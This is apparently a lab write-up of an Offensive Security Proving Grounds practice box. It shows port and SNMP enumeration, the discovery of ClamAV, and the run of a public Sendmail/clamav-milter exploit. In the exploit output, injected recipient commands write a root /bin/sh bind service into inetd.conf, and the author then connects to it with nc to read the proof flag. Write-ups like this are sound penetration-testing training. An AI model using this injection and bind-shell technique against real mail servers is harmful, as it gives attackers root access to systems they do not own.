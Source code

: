 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# discovery

Starting with a simple `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -sV 192.168.59.42
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-08 15:56 EST
Nmap scan report for 192.168.59.42
Host is up (0.10s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
25/tcp  open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
80/tcp  open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp open  smux        Linux SNMP multiplexer
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: localhost.localdomain; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.28 seconds
```

## quick checks
- standard ```ssh``` service on port 22
- `smtp` service on port 25
- website without useful content (no reasonable `dirb` results) on port 80
- `smb` on port 139/445
- `snmp` protocol on port 199

## checking `snmp` to gather more information about the target
```bash
$ snmp-check 192.168.59.42
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 192.168.59.42:161 using SNMPv1 and community 'public'

[*] System information:
 ...
 3781                  runnable              clamd                 /usr/local/sbin/clamd
  3783                  runnable              clamav-milter         /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
...
```
> `ClamAV` is installed and activated on the target
{: .prompt-info }

---

# exploitation
## looking for a `ClamAV` exploit
```bash
$ searchsploit clamav                      
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                  |  Path
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Clam Anti-Virus ClamAV 0.88.x - UPX Compressed PE File Heap Buffer Overflow                                                                     | linux/dos/28348.txt
ClamAV / UnRAR - .RAR Handling Remote Null Pointer Dereference                                                                                  | linux/remote/30291.txt
ClamAV 0.91.2 - libclamav MEW PE Buffer Overflow                                                                                                | linux/remote/4862.py
ClamAV < 0.102.0 - 'bytecode_vm' Code Execution                                                                                                 | linux/local/47687.py
ClamAV < 0.94.2 - JPEG Parsing Recursive Stack Overflow (PoC)                                                                                   | multiple/dos/7330.c
ClamAV Daemon 0.65 - UUEncoded Message Denial of Service                                                                                        | linux/dos/23667.txt
ClamAV Milter - Blackhole-Mode Remote Code Execution (Metasploit)                                                                               | linux/remote/16924.rb
ClamAV Milter 0.92.2 - Blackhole-Mode (Sendmail) Code Execution (Metasploit)                                                                    | multiple/remote/9913.rb
Sendmail with clamav-milter < 0.91.2 - Remote Command Execution                                                                                 | multiple/remote/4761.pl
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
> `Sendmail with clamav-milter < 0.91.2 - Remote Command Execution` seems to be worth a try (`multiple/remote/4761.pl`).
{: .prompt-info }

## execute the exploit
```bash
$ perl /usr/share/exploitdb/exploits/multiple/remote/4761.pl 192.168.59.42
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.59.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sat, 8 Jan 2022 20:59:57 -0500; (No UCE/UBE) logging access from: [192.168.49.59](FAIL)-[192.168.49.59]
250-localhost.localdomain Hello [192.168.49.59], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 2091xvno004050 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```

If everything worked there should be an additional service on the target now.

## check if the exploit opened a service
```bash
$ nmap -Pn 192.168.59.42                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-08 16:01 EST
Nmap scan report for 192.168.59.42
Host is up (0.11s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
31337/tcp open  Elite
```
> Port `31337` is open now!
{: .prompt-info }

## connect to shell
```bash
$ nc 192.168.59.42 31337
whoami
root
```

> Bam! Root shell.
{: .prompt-info }

---

# post exploitation
```bash
$ nc 192.168.59.42 31337
whoami
root
cd /root
ls
dbootstrap_settings
install-report.template
proof.txt
cat proof.txt
3******************************5
```

Pwned! <@:-) 

